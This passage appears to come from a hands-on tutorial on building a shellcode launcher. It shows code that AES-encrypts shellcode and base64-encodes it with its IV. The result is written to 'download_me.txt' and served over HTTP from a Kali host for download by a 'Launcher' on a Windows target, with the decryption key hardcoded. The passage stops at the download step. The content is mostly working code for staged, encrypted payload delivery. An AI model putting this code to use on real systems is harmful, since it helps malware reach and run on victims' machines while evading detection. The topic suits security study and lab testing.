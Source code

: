 Encrypt the shellcode.

```
ciphertext, iv = aes_encrypt(shellcode, key)
```

### Encoding those bytes

Encoding these bytes using base64 and converting that to a string will make transmission over the web safer.

Import the methods.

```
from base64 import b64encode
```

Encode the ciphertext (encrypted shellcode) and the initialization vector (IV).

```
ciphertext = b64encode(ciphertext).decode()
iv = b64encode(iv).decode()
```

Combine these into a single string to be parsed by the Launcher.

```
message = f'{ciphertext}:{iv}'
```

### Writing that string to a file

```
with open('download_me.txt', 'w') as f:
    f.write(message)
```

### Hosting that file

For the sake of simplicity, I'm going to use Python to host the file on my Kali Linux host for testing. Eventually I end up hosting this on Github.

```
python -m SimpleHTTPServer 8080
```

## Decryption, Decoding

Now it's time to start with the Launcher. This will all be developed and run from my Windows 10 VM. I need to download that base64 string, decode it, and decrypt it within my Launcher. Keep in mind that the Launcher would (theoretically) be running on a target machine, and that the password for decryption would be hardcoded in the Launcher (you could pull this into memory instead...)

### Decoding

Downloading the message (b64 ciphertext :: b64 iv).

```
import urllib.request

page = urllib.request.urlopen("http://127.0.0.1:8080/download_me.txt")
message = page.read()
message = message.decode()
```
